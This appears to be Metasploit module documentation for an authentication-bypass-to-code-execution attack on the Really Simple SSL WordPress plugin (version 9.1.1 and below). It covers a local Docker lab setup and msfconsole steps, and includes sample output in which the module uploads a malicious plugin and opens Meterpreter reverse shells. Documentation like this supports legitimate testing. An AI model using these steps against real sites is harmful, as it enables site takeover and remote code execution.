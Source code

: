 ## Vulnerable Application

The vulnerability affects the **Really Simple SSL** plugin, version **9.1.1** and below, allowing an **authentication bypass** attack.
This can be leveraged to bypass 2FA with specified `user_id` and gain full control of the WordPress instance.

### Pre-requisites:
- **Docker** and **Docker Compose** installed on your system.


### Setup Instructions

1. **Download the Docker Compose file**:
   Below is the content of the **docker-compose.yml** file to set up WordPress with the vulnerable plugin and a MySQL database.

```yaml
version: '3.1'

services:
  wordpress:
    image: wordpress:latest
    restart: always
    ports:
      - 5555:80
    environment:
      WORDPRESS_DB_HOST: db
      WORDPRESS_DB_USER: chocapikk
      WORDPRESS_DB_PASSWORD: dummy_password
      WORDPRESS_DB_NAME: exploit_market
    mem_limit: 512m
    volumes:
      - wordpress:/var/www/html
      - ./custom.ini:/usr/local/etc/php/conf.d/custom.ini

  db:
    image: mysql:5.7
    restart: always
    environment:
      MYSQL_DATABASE: exploit_market
      MYSQL_USER: chocapikk
      MYSQL_PASSWORD: dummy_password
      MYSQL_RANDOM_ROOT_PASSWORD: '1'
    volumes:
      - db:/var/lib/mysql

volumes:
  wordpress:
  db:
```

2. **Add custom PHP configuration**:
    - Create a file named `custom.ini` in the same directory as `docker-compose.yml` with the following content:

```ini
upload_max_filesize = 64M
post_max_size = 64M
```

3. **Start the Docker environment**:
- In the directory where you saved the `docker-compose.yml` file, run the following command to start the services:

```bash
docker-compose up -d
```

4. **Install and activate the plugin**:
- Download the vulnerable version of **Really Simple SSL**:
```bash
wget https://downloads.wordpress.org/plugin/really-simple-ssl.9.1.1.zip
```
- Extract the plugin:
```bash
unzip really-simple-ssl.9.1.1.zip
```
- Copy the plugin files to the WordPress container:
```bash
docker cp really-simple-ssl wordpress:/var/www/html/wp-content/plugins/
```
- Navigate to `http://localhost:5555/wp-admin` in your browser and activate the plugin in the WordPress admin panel.

5. **Enable Two-Factor Authentication**:
- Go to **Settings > Really Simple Security**.
- Activate **Two-Factor Authentication**.


## Verification Steps

1. **Set up WordPress** with the vulnerable **Really Simple SSL** plugin.
2. **Start Metasploit** using the command `msfconsole`.
3. Use the correct module for the vulnerability:

```bash
use exploit/multi/http/wp_reallysimplessl_2fa_bypass_rce
```

4. Set the target's IP and URI:

```bash
set RHOSTS <target_ip>
set TARGETURI /
```

5. **Run the module**:

```bash
run
```

6. **Verify the Authentication Bypass**:
- After running the module, the payload will bypass Two-Factor Authentication and attempt to create a new administrator.

## Options

### USERID

The user ID to target for 2FA bypass (default: 1)

## Scenarios

### Example 1: PHP Meterpreter (ARCH_PHP)

```bash
msf6 exploit(multi/http/wp_reallysimplessl_2fa_bypass_rce) > run http://127.0.0.1:5555

[*] Started reverse TCP handler on 192.168.1.36:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] WordPress Version: 6.5.3
[+] Detected vulnerable plugin slug: really-simple-ssl
[+] The target appears to be vulnerable. Plugin really-simple-ssl appears to be vulnerable.
[*] 2FA bypass successful. Uploading plugin...
[*] Executing the payload at /wp-content/plugins/wp_1ftvf/ajax_pottw.php...
[*] Sending stage (40004 bytes) to 172.18.0.3
[+] Deleted ajax_pottw.php
[+] Deleted wp_1ftvf.php
[+] Deleted ../wp_1ftvf
[*] Meterpreter session 3 opened (192.168.1.36:4444 -> 172.18.0.3:37730) at 2024-11-18 20:07:17 +0100

meterpreter > sysinfo 
Computer    : a8dddfbbb9e2
OS          : Linux a8dddfbbb9e2 5.15.0-125-generic #135-Ubuntu SMP Fri Sep 27 13:53:58 UTC 2024 x86_64
Meterpreter : php/linux
meterpreter >
```

### Example 2: Linux Command Shell (ARCH_CMD)

```bash
msf6 exploit(multi/http/wp_reallysimplessl_2fa_bypass_rce) > run http://127.0.0.1:5555

[*] Started reverse TCP handler on 192.168.1.36:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] WordPress Version: 6.5.3
[+] Detected vulnerable plugin slug: really-simple-ssl
[+] The target appears to be vulnerable. Plugin really-simple-ssl appears to be vulnerable.
[*] 2FA bypass successful. Uploading plugin...
[*] Executing the payload at /wp-content/plugins/wp_3wbfa/ajax_gjreh.php...
[*] Sending stage (3045380 bytes) to 172.18.0.3
[+] Deleted ajax_gjreh.php
[+] Deleted wp_3wbfa.php
[+] Deleted ../wp_3wbfa
[*] Meterpreter session 4 opened (192.168.1.36:4444 -> 172.18.0.3:50344) at 2024-11-18 20:12:00 +0100

meterpreter > sysinfo 
Computer     : 172.18.0.3
OS           : Debian 11.8 (Linux 5.15.0-125-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > 
```
